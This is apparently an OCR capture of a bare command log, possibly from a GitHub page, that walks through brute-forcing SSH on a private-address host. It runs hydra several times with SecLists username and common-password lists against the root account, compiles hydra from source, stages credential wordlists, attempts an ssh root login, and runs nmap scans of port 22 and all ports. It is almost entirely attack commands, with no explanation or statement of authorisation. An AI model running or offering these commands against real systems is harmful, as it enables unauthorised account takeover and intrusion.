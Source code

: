 telnet 172.16.50.106 22\
nano ssh-username.txt\
cd ../Common-Credentials/ \
cat 10-million-password-list-top-100.txt 

cd ../Default-Credentials/ \
cat ssh-username.txt

#### Install penetration testing tool
apt-get install hydra\
hydra\
hydra -L ls\
hydra -L /opt/seclist-master/Passwords/Default-Credentials/ssh-username.txt -p /opt/seclist-master/Passwords/Common-Credentials/10-million-password-list-top-100.txt ssh://172.16.50.106 -V -t 8\
hydra -L /opt/seclist-master/Passwords/Default-Credentials/ssh-username.txt -p /opt/seclist-master/Passwords/Common-Credentials/10-million-password-list-top-100.txt ssh://172.16.50.106 -V -t 4\
hydra -l root -p /opt/seclist-master/Passwords/Common-Credentials/10-million-password-list-top-100.txt ssh://172.16.50.106 -V -t 4\
hydra -l root -p /opt/seclist-master/Passwords/Common-Credentials/10-million-password-list-top-100.txt 172.16.50.106 -V -t 8 ssh\
hydra -l root -p /opt/seclist-master/Passwords/Common-Credentials/10-million-password-list-top-100.txt 172.16.50.106 -t 32 ssh\
hydra -l root -P /opt/seclist-master/Passwords/Common-Credentials/10-million-password-list-top-100.txt 172.16.50.106 -t 32 ssh\
hydra -l root -P /opt/seclist-master/Passwords/Common-Credentials/10-million-password-list-top-100.txt 172.16.50.106 -t 32 ssh

apt-get remove hydra\
git clone https://github.com/vanhauser-thc/thc-hydra.git\
cd thc-hydra\
./configure\
make install\
apt-get install libssl-dev libssh-dev libidn11-dev libpcre3-dev \
                  libgtk2.0-dev libmysqlclient-dev libpq-dev libsvn-dev \
                  firebird-dev libmemcached-dev libgpg-error-dev \
                  libgcrypt11-dev libgcrypt20-dev
hydra\
apt-get remove hydra\
apt-get install hydra-gtk\
cat hydra-wizard.sh\
hydra -l root -P /opt/seclist-master/Passwords/Common-Credentials/10-million-password-list-top-1000.txt -u 172.16.50.106 ssh\
mkdir /opt/cred && cd /opt/cred\
cp /opt/seclist-master/Passwords/Default-Credentials/ssh-username.txt /opt/cred/\
cp /opt/seclist-master/Passwords/Common-Credentials/*.* /opt/cred/\
nano best.txt

ssh root@172.16.50.106\
nmap -p22 -Pn -sC -sS 172.16.50.106\
cd /home\
nmap -p22 -Pn -sC -sS -iL /home/target.txt \
nmap -p- -Pn -sC -sS -iL /home/target.txt 
